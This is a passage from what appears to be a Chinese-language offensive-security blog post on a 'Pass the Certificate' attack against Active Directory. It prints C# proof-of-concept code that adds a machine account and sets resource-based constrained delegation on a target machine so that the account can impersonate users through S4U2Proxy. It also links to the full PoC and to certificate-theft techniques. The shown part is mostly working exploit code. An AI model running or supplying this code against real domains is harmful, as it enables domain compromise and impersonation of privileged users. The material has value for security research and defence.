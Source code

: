 ```c#
        {
            Console.WriteLine("[-] Can not retrieve the sid.");
        }
    }
    return securityIdentifier;
}
```

### Set the RBCD of The Target Machine Account

最后，通过 `ModifyRequest` 将新机器账户的 SID 添加到目标机器账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中，以设置从新机器帐户到目标帐户的基于资源的约束性委派（RBCD）。

```c#
public void Exploit()
{
    string NewMachineDN = $"CN={this.MachineAccount},CN=Computers," + this.RootDN;

    SecurityIdentifier securityIdentifier = AddComputer(this.Domain, NewMachineDN, this.MachineAccount, this.MachinePassword);
    string nTSecurityDescriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + securityIdentifier + ")";
    RawSecurityDescriptor rawSecurityIdentifier = new RawSecurityDescriptor(nTSecurityDescriptor);
    byte[] DescriptorBuffer = new byte[rawSecurityIdentifier.BinaryLength];
    rawSecurityIdentifier.GetBinaryForm(DescriptorBuffer, 0);

    ModifyRequest modifyRequest = new ModifyRequest(this.TargetMachineDN, DirectoryAttributeOperation.Replace, "msDS-AllowedToActOnBehalfOfOtherIdentity", DescriptorBuffer);
    try
    {
        ModifyResponse modifyResponse = (ModifyResponse) this.connection.SendRequest(modifyRequest);
        Console.WriteLine($"[*] {this.MachineAccount}$ can now impersonate users on {this.TargetMachineDN} via S4U2Proxy.");
    }
    catch
    {
        Console.WriteLine("[-] Could not modify attribute msDS-AllowedToActOnBehalfOfOtherIdentity, check that your user has sufficient rights.");
    }
}
```

你可以在这里找到我完整的 POC 代码：[PassTheCertificate.cs](https://gist.github.com/wh0amitz/8d619ee2004d323bf9d4ec3c66751a4e)

Let’s see it in action
----------------------

通过 [Shadow Credentials](https://whoamianony.top/posts/shadow-credentials/) 或其他证书窃取的方法（[THEFT1](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#041-exporting-certificates-using-the-crypto-apis--theft1)、[THEFT3](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#043-machine-certificate-theft-via-dpapi--theft3) 或 [THEFT4](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#044-finding-certificate-files--theft4)）获得域控制器或域管理员等高权限帐户的证书（.pfx），然后执行以下命令，通过证书认证到 LDAPS，添加一个名为 “PENTEST” ，密码为 “Passw0rd” 的机器账户，并设置 PENTEST 到域控制器 DC01 的 RBCD。
